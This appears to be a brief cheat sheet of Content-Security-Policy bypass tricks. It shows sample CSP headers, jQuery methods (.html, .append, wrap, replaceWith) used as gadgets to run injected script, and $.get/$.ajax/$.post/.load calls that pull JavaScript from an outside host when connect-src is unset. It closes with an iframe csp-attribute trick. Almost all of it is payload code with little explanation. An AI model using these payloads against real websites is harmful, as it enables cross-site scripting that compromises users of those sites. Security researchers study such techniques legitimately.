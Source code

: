 ### CSP Fun Tricks
#### JQuery Gadget

    header("Content-Security-Policy: script-src 'self' 'unsafe-inline';");
    header("Content-Security-Policy: default-src 'none'; script-src 'nonce-secret' 'strict-dynamic'; style-src 'self'; img-src 'self' data:; media-src 'self'; font-src 'self' data:; connect-src 'self'; base-uri 'none';");
    

 ```javascript
<script nonce=secret>
       .html,
       .after,
       .before,
       .append,
       .prepend,
       // $("body").html('<script>alert``') || $("body").html(name)
       
       wrap,
       wrapAll,
       replaceWith,
       // $("body").wrap('<script>alert``</script>') || $("body").wrap(name)
       
       import(name),
       
       not set connect-src
       
       $.get(`https://blue.exeye.io/alert`)             // Content-Type=text/javascript CORS = *
	   $.ajax(`https://blue.exeye.io/alert`);           // Content-Type=text/javascript CORS = *
	   $.post(`https://blue.exeye.io/alert`);           // Content-Type=text/javascript CORS = *
	   $('body').load(`https://blue.exeye.io/html`);    // Content-Type: text/html 	CORS = *
</script>
 ```
 
 
 #### csp-embedded-enforcement
 
 ```html
<iframe src="/block_request" csp="script-src https://blue.exeye.io" />

<!-- precondition=  same origin && iframe-csp not overwrite csp(http-header-csp meta-csp )-->

```
